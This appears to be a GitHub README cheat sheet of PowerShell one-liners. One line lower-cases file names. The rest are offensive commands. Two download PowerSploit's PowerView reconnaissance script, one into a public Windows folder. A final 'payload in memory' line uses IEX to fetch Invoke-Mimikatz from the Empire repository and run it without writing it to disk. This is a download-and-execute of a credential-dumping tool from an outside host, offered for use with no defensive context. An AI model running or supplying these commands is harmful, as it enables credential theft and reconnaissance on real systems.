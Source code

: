 # powershell_cmds

## Change all file names to lower case in the current directory

```Powershell
Get-ChildItem | Rename-Item -NewName {$_.Name -replace $_.Name, $_.Name.ToLower()}
```

## Downloading file from raw github content via System.Net.WebClient
```Powershell
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

## Downloading file from raw github content via Invoke-WebRequest (slower for downloading files)

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
## Invoking payload in memory

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
